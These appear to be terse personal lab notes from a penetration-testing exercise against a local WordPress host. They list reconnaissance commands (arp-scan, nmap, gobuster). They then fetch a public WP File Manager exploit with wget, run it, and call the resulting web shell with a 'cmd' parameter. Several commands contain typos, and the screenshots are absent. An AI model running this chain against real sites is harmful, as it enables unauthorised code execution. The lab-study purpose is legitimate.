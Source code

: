 
```java
sudo arp-scan -I eth0 --localnet
```
![[Pasted image 20230913163101.png]]
```java
ping -c 192.168.153.153
```
![[Pasted image 20230913162723.png]]
```java
mkdir eCPPTv2 && cd eCPPTv2 &&mkdir 192.168.153.153 && cd 192.168.153.153 cd 192.168.153.153 mkdir {scan,content,exploit} && ls && cd scan
```
![[Pasted image 20230913162944.png]]
```java
sudo nmap -p- --opne -sS --min-rate 5000 -vvv -n -Pn 192.168.153.153 -oG allports 
```
![[Pasted image 20230913163031.png]]
```java
sudo nmap -sCV -p22,80 192.168.153.153 -oN targeted
```
![[Pasted image 20230913163307.png]]
```java
http://192.168.153.153
```
![[Pasted image 20230913164416.png]]
```java
whatweb 192.168.153.153
```
![[Pasted image 20230913164442.png]]
```java
gobuster dir -u http://192.168.153.153/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x http,php,txt
```
![[Pasted image 20230913165515.png]]
```java
http://192.168.153.153/blog/
```
![[Pasted image 20230913165540.png]]
![[Pasted image 20230913165954.png]]
```java
nano /ect/hosts
```
![[Pasted image 20230913170623.png]]
![[Pasted image 20230913170943.png]]
```java
wget http://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py
```
![[Pasted image 20230914123050.png]]
```java
nano 2020-wp-file-manager-v67.py
```
![[Pasted image 20230914123235.png]]
```java
python3 2020.wp-file-manager-v67.py http://192.168.153.153/blog/
```
![[Pasted image 20230914123739.png]]
```java
192.168.153.153/blog/wp-content/plugings/wp-file-manager/lib/files/payloads.php?cmd=ip a
```
